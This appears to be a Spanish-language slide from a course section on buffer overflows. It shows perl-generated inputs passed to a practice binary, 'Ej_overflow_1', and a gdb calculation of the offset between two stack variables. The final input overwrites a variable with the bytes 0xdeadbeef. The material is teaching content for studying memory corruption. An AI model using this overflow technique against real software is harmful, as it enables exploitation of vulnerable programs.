

# 0x310 buffer overflows
$ ./Ej_overflow_1 $(perl -e 'print "A"x30')

Calcular bytes de memoria entre iValor y buffer_dos:
(gdb) print 0xbffff7f4 - 0xbffff7e0

$ ./Ej_overflow_1 $(perl -e 'print "A"x20 . "ABCD"')
$ ./Ej_overflow_1 $(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"')
Es posible..!!

Calculado